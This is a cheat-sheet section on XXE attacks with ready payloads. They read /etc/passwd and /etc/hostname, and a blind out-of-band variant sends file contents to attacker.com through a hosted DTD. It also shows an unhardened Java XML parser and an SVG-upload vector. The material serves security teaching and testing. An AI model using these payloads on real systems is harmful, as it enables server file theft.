 
## XML External Entity (XXE)

XXE attacks target applications that parse XML input and process external entity references.

### Detection

**Basic XXE Payload:**
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

**Blind XXE with Out-of-Band (OOB) Interaction:**
```xml
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root>test</root>
```

**Hosted evil.dtd:**
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%all;
%send;
```

### Real-World Example

**Scenario:** XXE in SVG Upload Functionality

**Vulnerable Code:**
```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = factory.newDocumentBuilder();
Document doc = builder.parse(new InputSource(new StringReader(xmlInput)));
```

**Attack Vector:**
Upload an SVG file containing:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="40" x="0" y="16">&xxe;</text>
</svg>
```

**HackerOne Report:** [#231519 - XXE in Uber](https://hackerone.com/reports/231519)
